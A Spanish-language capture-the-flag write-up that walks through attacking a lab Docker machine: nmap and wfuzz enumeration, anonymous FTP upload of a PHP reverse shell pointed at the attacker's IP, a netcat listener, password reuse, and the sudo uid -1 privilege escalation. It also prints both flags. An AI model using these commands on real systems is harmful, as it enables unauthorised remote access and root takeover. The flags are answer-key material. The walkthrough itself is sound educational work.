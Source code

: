 # CTF-1
*Capture the flag* donde se trabaja la enumeración y fingerprinting, conexión FTP, php, *reverse shell*, *netcat*, escalada de privilegios... 
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-Nmap-6933FF?style=for-the-badge&logo=nmap&logoColor=white" />
  <img src="https://img.shields.io/badge/-Wfuzz-4285F4?style=for-the-badge&logo=wfuzz&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-PHP-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white" />
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>

## Objetivo

Explicar la realización del siguiente _Capture the flag_ dentro del mundo educativo. Se preteneden conseguir dos archivos (_flags_), uno dentro del entorno del usuario básico y el otro en el entorno _root_. Para ello, se deberá penetrar en la máquina, pasar al usuario básico y realizar una escalada de privilegios.

## Que hemos aprendido?

- Realizar fingerprinting y enumeración de puertos y enumeración web.
- Realizar *reverse shell* con *php*.
- Poner puertos en escucha.
- Escalada de privilegios.

## Herramientas utilizadas

- *Kali Linux*.
- Enumeración: *nmap*, *WFUZZ*.
- Penetración: código php de *Pentest Monkey*, *netcat*, lenguaje *bash*, *web 'exploit-database'*. 

## Steps

### Enumeración y fingerprinting

La máquina a vulnerar está desplegada dentro de un *Docker*, para encontrar este desde el terminal de Kali, se busca su direción IP con el comando <code>ipconfig</code>. En la respuesta se averigua que su dirección IP es la 172.17.0.1, por lo que la máquina víctima debe estar en la red 172.17.0.X. Utilizando la herramienta __nmap__ puedo hacer un barrido para encontrar el host que estoy buscando, para hacerlo más rápido no compruebo puertos.  

<code>nmap -sn 172.17.0/24</code>  

![427138515-a9e766f5-48f7-4510-8ca1-05af72817794](https://github.com/user-attachments/assets/383ace90-df56-4fbd-b715-5f5f726caf92)

Ya tengo localizada la máquina en la dirección 172.17.0.2, ahora con la ayuda de __nmap__ se buscan los puertos de la máquina que se encuentran abiertos y las versiones que corren en ellos. Le indico que no haga descubrimiento de *hosts* mediante ‘-Pn’. Además, utilizo el script *default* que viene con *nmap* para que me muestre las vulnerabilidades que pueda encontrar.  

<code>nmap -p- -Pn -sV -O 172.17.0.2 -sC</code>  

![427141463-8c876a8a-464d-48a5-9298-e522cc7764ee](https://github.com/user-attachments/assets/4621faeb-9571-4a84-a347-830406e729f3)

El comando nos devuelve 3 puertos TCPs abiertos:
- En el puerto 21 corre la versión *vsftpd* 3.0.3 del servicio FTP.
- En el puerto 22 corre la versión *Openssh* 7.6p1 del servicio SSH en un sistema *Ubuntu*.
- En el puerto 80 corre la versión *Apache* httpd 2.4.29 del servicio HTTP en un sistema *Ubuntu*.

Los *scripts* muestran una serie de vulnerabilidades entre la que destaca la posibilidad de iniciar sesión vía FTP con una cuenta *anonymous*, por lo que no sería necesaria una contraseña. Una vez dentro, encuentro el directorio ‘html’ y dentro de este, dos archivos: ‘index.php’ e ‘index.html.bak’. Estos archivos hacen referencia al servidor de *Apache* que hay montado en el puerto 80. Puesto que tengo acceso a esta carpeta y permisos de escritura, subiré un archivo *php* con una *reverse shell* para poder tomar el control de la máquina.  
Para la enumeración web se utiliza la herramiente __WFUZZ__ que encontrará los posibles archivos y directorios que pertenezcan a la IP. Con la opción ‘-c’ se muestran los valores con diferentes colores, con ‘-hc 404’ evito que salgan por pantalla todos aquellos intentos que no han encontrado nada. El parámetro ‘-t’ sirve para indicar la velocidad que ejecuta el comando, he decidido ponerle 1 para que analice todos los posibles ficheros con el inconveniente de tardar más. El parámetro ‘-w’ indica la lista a partir de la cual se va a hacer el *fuzzing* y el parámetro ‘-u’ es para la URL de la página destino. Añadiendo la palabra *FUZZ* al final, indico que la palabra de la lista que analiza, la busque en esa posición de la URL.  

<code>wfuzz -c --hc 404 -t 1 -w /usr/share/seclists/Discovery/Web-Content/raft-small-files.txt -u http://172.17.0.2/FUZZ</code>  

![427168994-9e23fdc9-fc67-41f4-8fb6-e99e683ececb](https://github.com/user-attachments/assets/f49331ae-24e6-4ffc-8009-b237acb12157)

*Kali* contiene una serie de listas (diccionarios) con los nombres más típicos de archivos o directorios web, en la imagen se prueba con archivos. De entre los archivos devueltos, los alcanzables son ‘index.php’ y ‘index.html.bak’. Confirmando lo encontrado por la vía FTP.

### Vulnerabilidades explotadas
Una vez hecha la enumeración, me dispongo a explotar la vulnerabilidad FTP encontrada, donde no se pide contraseña alguna para iniciar sesión con el usuario *anonymous*. Me dirijo al directorio '/html' y utilizo el comando <code>mget</code> para descargar el ‘index.php’ que a efectos prácticos no es muy útil, pues únicamente contiene el mensaje que se muestra en la dirección IP de la máquina.  

![image](https://github.com/user-attachments/assets/4faf7f88-613e-41ec-8ff6-5eda4ae6c6cc)

<code>ftp 172.17.0.2</code>  
<code>cd html</code>  
<code>mget index.php</code>  

Opto por subir vía FTP un archivo *php* con el ataque y alojarlo en la misma carpeta '/html' donde se encuentran los otros archivos. El ataque consiste en una _reverse shell_ escrita en *php* obtenida de la plataforma de *github*, subida por [*pentestmonkey*](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Modifico la dirección IP en el código por la mía (10.0.2.15) y el puerto deseado (1234 por defecto), el resto lo dejo igual. Para subir este archivo, debo estar situado en el directorio donde lo tengo guardado (‘/home/kali’) y una vez conectado vía FTP, voy al directorio donde lo quiero guardar ‘/html’. El comando utilizado es <code>put</code> seguido del nombre del archivo.  

<code>put php-reverse-shell.php</code>  

Lo siguiente es, desde mi terminal, poner el puerto especificado en el *script* en escucha (1234). Para hacer esto hago uso de la herramienta **netcat**, le indico la opción de verbosidad y que busque direcciones IP numéricas.  

<code>nc -lvnp 1234</code>  

Por último, me dirijo a la dirección URL del archivo (http://172.17.0.2/php-reverse-shell.php) y espero que se produzca la conexión. Al conectarme, puedo ver qué usuario soy con un <code>whoami</code> que me devuelve ‘www-data’. Además, se observa que pertenezco al grupo de mismo nombre, ‘www-data’. Este es el típico usuario que se obtiene al acceder vía web.

![427516314-1fedb1bb-98dc-42bc-8bf2-305f47898d5d](https://github.com/user-attachments/assets/0c79c87e-6701-4cd3-803f-a60e1ed377d6)

Una vez dentro sólo debo buscar la *flag*, la cual encuentro en el directorio '/home/hacker/'.  
**Flag**: 244cdf401e667cca77b8228066096985.  

![427518574-dbd4ffa4-ee6c-4fc1-bc14-0c9b12819537](https://github.com/user-attachments/assets/e4653076-ac0f-489b-9b16-4711d87d9005)

Para conseguir la escalada de privilegios, me fijo en que anteriormente he descubierto la existencia del usuario *hacker*. Así pues, voy a buscar procesos lanzados por este usuario (o en los que haya sido mencionado).  

<code>ps aux | grep hacker</code>  

Como respuesta, obtengo un proceso ejecutado por el usuario *root* en estado de espera, el cual consiste en un *script* llamado ‘myhacker.sh’ y al que parece que se le pasa una contraseña ‘tefeme_86_pass’.
Intento **pivotar** al usuario *hacker* probando con esta contraseña y después de conseguirlo lo compruebo mediante el comando <code>id</code>.

![427528819-4a47603f-e039-4a50-9422-fbf93042874c](https://github.com/user-attachments/assets/ae914b8f-a229-4e4f-85ef-b9ae2b797ae6)

El siguiente paso es buscar archivos desde el directorio raíz con el **bit SUID** activado que permitan ser ejecutados con permisos *root* (find / -perm -4000). Además, los mensajes erróneos que devuelva, los mandamos a la dirección '/dev/null' para que no se muestren por pantalla (2>/dev/null). Como respuesta aparecen una serie de binarios, de entre los cuales me llama la atención '/usr/local/lib/sudo' pues no se encuentra en '/usr/bin', como cabría esperar.

<code>find / -perm -4000 2>/dev/null</code>

Haciendo una búsqueda por la web [*exploit-database*](https://www.exploit-db.com/exploits/47502), encuentro una vulnerabilidad que fue resuelta a partir de la versión 28. Para explotarla voy a abrir una *shell* con un usuario inexistente, indicándole el *uid* -1; lo cual devolverá un 0 y lo confundirá con el usuario *root*.

<code>sudo -u#-1 /bin/bash</code>

![427654438-64cc9af0-e429-4b07-84af-e68e1d1e62dd](https://github.com/user-attachments/assets/a8620f84-59cb-49f6-92e6-2f6f2be4a425)

Una vez soy usuario *root*, puedo dirigirme a su directorio propio ('/root') y encontrar la segunda *flag*.

![427657084-6ec0d4b1-335f-4d86-9e8d-b4bb3f033649](https://github.com/user-attachments/assets/bc748004-0c88-4ce4-88a6-5a0b7fd45dcb)

**Flag**: 648d390c021ce7cfde2f95ea3fcd71ec.

